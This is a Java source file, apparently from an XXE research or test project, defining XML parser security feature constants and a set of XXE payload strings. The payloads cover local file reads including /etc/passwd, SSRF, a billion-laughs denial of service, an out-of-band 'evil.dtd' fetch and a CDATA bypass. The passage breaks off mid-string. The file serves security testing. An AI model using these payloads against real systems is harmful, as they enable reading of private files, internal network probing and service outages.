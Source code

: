 features

{% highlight java %}
public interface features {
    String SECURE_PROCESSING = "http://javax.xml.XMLConstants/feature/secure-processing";
    String EXTERNAL_GENERAL_ENTITIES = "http://xml.org/sax/features/external-general-entities";
    String DISALLOW_DOCTYPE_DECL = "http://apache.org/xml/features/disallow-doctype-decl";
    String EXTERNAL_PARAMETER_ENTITIES =  "http://xml.org/sax/features/external-parameter-entities";
    String LOAD_EXTERNAL_DTD = "http://apache.org/xml/features/nonvalidating/load-external-dtd";
}
{% endhighlight %}

payloads

{% highlight java %}
public interface Payloads {
    String flag = "F:\\Research\\java\\XXE\\bit-xxe\\src\\main\\java\\flag.txt";
    String special_character = "F:\\Research\\java\\XXE\\bit-xxe\\src\\main\\java\\fstab";
    String boot = "C:\\boot.ini";
    String internal_dtd = "F:\\Research\\java\\XXE\\bit-xxe\\src\\main\\java\\info.dtd";
    String port = "1446" ;

    String internal = "<?xml version=\"1.0\"?>\n" +
            "<!DOCTYPE foo [\n" +
            "<!ENTITY ac \"Hacker\">]>\n" +
            "<foo>&ac;</foo>";

    String readfile = "<?xml version=\"1.0\"?>\n" +
            "<!DOCTYPE foo [\n" +
            "<!ENTITY ac SYSTEM \"" + flag +"\">]>\n" +
            "<foo>&ac;</foo>";

    String ssrf = "<?xml version=\"1.0\"?>\n" +
            "<!DOCTYPE foo [\n" +
            "<!ENTITY ac SYSTEM \"http://127.0.0.1:" + port + "/pwned\">]>\n" +
            "<foo>&ac;</foo>";

    String ftp ="<?xml version=\"1.0\"?>\n" +
            "<!DOCTYPE foo [\n" +
            "<!ENTITY ac SYSTEM \"ftp://whoami/file:///etc/passwd\">]>\n" +
            "<foo>&ac;</foo>";

    String Dos = "<!--?xml version=\"1.0\" ?-->\n" +
            "<!DOCTYPE lolz [<!ENTITY lol \"lol\"><!ELEMENT lolz (#PCDATA)>\n" +
            "<!ENTITY lol1 \"&lol;&lol;&lol;&lol;&lol;&lol;&lol;\">\n" +
            "<!ENTITY lol2 \"&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;\">\n" +
            "<!ENTITY lol3 \"&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;\">\n" +
            "<!ENTITY lol4 \"&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;\">\n" +
            "<!ENTITY lol5 \"&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;\">\n" +
            "<!ENTITY lol6 \"&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;\">\n" +
            "<!ENTITY lol7 \"&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;\">\n" +
            "<!ENTITY lol8 \"&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;\">\n" +
            "<!ENTITY lol9 \"&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;\">\n" +
            "<tag>&lol9;</tag>";

    String Base64 = "<?xml version=\"1.0\"?>\n" +
        "<!DOCTYPE test [ <!ENTITY % init SYSTEM \"data://text/plain;base64,ZmlsZTovLy9ldGMvcGFzc3dk\"> %init; ]><foo/>\n";

    String external = "<?xml version=\"1.0\"?>\n" +
            "<!DOCTYPE foo SYSTEM \""+internal_dtd+"\">]>\n" +
            "<foo>&ifo;</foo>";

    String external_dtd_oob = "<?xml version=\"1.0\"?><!DOCTYPE ANY[<!ENTITY % remote SYSTEM \'http://localhost:" + port + "/evil.dtd\'>%remote;%init;%trick;]>";

    String CDATA_Bypass = "<?xml version =\"1.0\"?>\n"+
            "<!DOCTYPE data[\n" +
            "<!ENTITY start \"<![CDATA[<!ENTITY file SYSTEM \""+special_character+"\">]]>\">\n"+